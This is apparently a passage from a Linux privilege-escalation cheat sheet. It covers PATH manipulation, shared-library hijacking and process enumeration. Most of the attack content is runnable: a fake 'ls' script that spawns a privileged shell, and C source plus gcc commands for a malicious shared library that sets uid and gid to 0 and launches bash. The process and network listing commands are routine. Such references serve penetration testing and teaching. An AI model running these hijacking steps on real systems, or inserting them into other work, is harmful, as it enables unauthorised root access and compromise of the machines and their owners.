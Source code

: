 ```bash
```

### PATH Manipulation
```bash
# Check current PATH
echo $PATH

# Create malicious binary in writable directory
echo '#!/bin/bash\n/bin/bash -p' > /tmp/ls
chmod +x /tmp/ls

# Modify PATH to prioritize malicious binary
export PATH=/tmp:$PATH

# Wait for privileged process to execute our binary
# Or trigger execution through cron jobs, scripts, etc.
```

### Library Hijacking
```bash
# Check for writable library directories
find / -type d -writable 2>/dev/null | grep -E "(lib|lib64)"

# Check LD_LIBRARY_PATH in processes
ps aux | grep -i ld_library

# Create malicious shared library
echo 'void _init() { setgid(0); setuid(0); system("/bin/bash"); }' > /tmp/exploit.c
gcc -fPIC -shared -o /tmp/exploit.so /tmp/exploit.c -nostartfiles

# Place in writable library directory
cp /tmp/exploit.so /writable/lib/directory/
```

---

## Process and Service Analysis

### Running Processes
```bash
# List all processes
ps aux
ps -ef --forest

# Processes running as root
ps aux | grep root

# Network connections
ss -tlnp
netstat -tulnp

# Check for processes with interesting capabilities
/sbin/getcap -r / 2>/dev/null
```
